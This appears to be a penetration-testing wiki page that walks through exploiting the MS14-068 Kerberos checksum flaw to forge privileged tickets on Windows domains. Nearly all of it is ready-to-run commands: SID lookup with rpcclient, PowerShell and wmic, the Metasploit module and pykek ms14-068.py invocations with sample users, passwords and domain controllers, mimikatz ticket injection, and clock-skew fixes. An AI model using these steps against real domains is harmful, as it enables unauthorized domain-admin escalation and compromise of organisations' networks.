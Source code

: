 # Kerberos Checksum Validation \( MS14-068 \)

{% embed url="https://github.com/gentilkiwi/kekeo/wiki/ms14068" %}



The vulnerability patches an issue with how the Domain Controller validates group membership in Kerberos tickets \(hint: the ticket is always validated by the DC if the checksum is set to certain values\). Microsoft KB3011780 patches this issue.

{% hint style="info" %}
This vulnerability will impact the windows server versions up to windows server 2012 R2.
{% endhint %}

#### This exploit require to know the user SID, you can use `rpcclient` to remotely get it or `wmi` if you have an access on the machine.

## Finding SID

to find the SID remotely:

```text
rpcclient $> lookupnames john.smith
```

convert SID to username:

```text
([System.Security.Principal.SecurityIdentifier]('PUT-SID-HERE')).Translate([System.Security.Principal.NTAccount]).Value
```

convert username to SID:

```text
([System.Security.Principal.NTAccount]("domain\john.smith")).Translate([System.Security.Principal.SecurityIdentifier]).Value
```

to find SID locally:

```text
wmic useraccount get name,sid
Convert-NameToSid high-sec-corp.localkrbtgt (powerview)
```

## Generating  Ticket

can use pykek or metasploit:

```text
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```text
git clone https://github.com/SecWiki/windows-kernel-exploits

python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
```

## Loading the Ticket

Use `mimikatz` to load the ticket.

```text
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

If the clock is skewed use `clock-skew.nse` script from `nmap`

```text
Linux> $ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

Linux> sudo date -s "14 APR 2015 18:25:16" 
Windows> net time /domain /set
```

